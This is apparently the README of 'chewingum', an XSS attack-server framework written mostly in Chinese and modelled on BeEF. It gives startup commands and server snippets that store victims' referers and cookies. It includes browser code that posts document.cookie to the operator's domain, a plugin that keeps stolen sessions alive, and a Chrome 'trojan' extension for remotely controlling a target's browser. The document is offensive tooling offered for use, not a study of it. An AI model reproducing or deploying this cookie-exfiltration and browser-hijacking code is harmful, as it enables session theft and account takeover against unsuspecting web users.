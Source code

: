 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle - 0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

1.login

采用filekey验证, 上传filekey或输入URL便可登录.

2.server

server处代码会直接在项目触发时执行,
最终会将变量serverinfo和变量browserinfo保存至数据库,
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

3.server code keyword

iferror
对变量iferror赋值, 会触发对应错误.
如:
>	iferror = 404

returns
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.
如:
>	returns = '<script>alert(1)</script>'

gum.backinfo
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。
当返回之后最好清空它。
>   gum.backinfo = {};

4.project name and object name

project 的项目名需是xss触发处的url或是domain.
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

+	object 的项目名可随意更改.

5.plugins

可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

6.set code

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

7.other

使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

8.console

尚在测试阶段。
javascript文件在

    ./static/plus/onexsshell.js

9.browser trojan

chrome
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口
使用chrome or chromium打包
安装在目标的浏览器后，使用console即可操作目标浏览器。

+   尚在测试阶段
